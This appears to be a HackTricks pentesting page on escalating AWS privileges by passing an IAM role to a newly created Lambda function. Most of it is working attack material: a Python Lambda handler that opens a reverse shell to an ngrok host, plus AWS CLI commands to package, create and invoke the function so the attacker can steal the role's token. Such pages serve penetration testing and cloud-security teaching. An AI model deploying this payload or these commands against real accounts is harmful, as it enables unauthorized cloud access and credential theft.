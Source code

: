 # AWS - Lambda Privesc

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>

## lambda

More info about lambda in:

{% content-ref url="../../aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../../aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:InvokeFunction`

A user with the **`iam:PassRole`, `lambda:CreateFunction`,** and **`lambda:InvokeFunction`** permissions can **escalate privileges by passing an existing IAM role to a new Lambda function** that includes code to import the relevant AWS library to their programming language of choice, then using it perform actions of their choice. The code could then be run by invoking the function through the AWS API.

A attacker could abuse this to get a **rev shell and steal the token**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
   s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(('4.tcp.ngrok.io',14305))
   os.dup2(s.fileno(),0)
   os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2)
   p=subprocess.call(['/bin/sh','-i'])
   time.sleep(900)
   return 0
```
{% endcode %}

```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
    --runtime python3.9 --role <arn_of_lambda_role> \
    --handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```

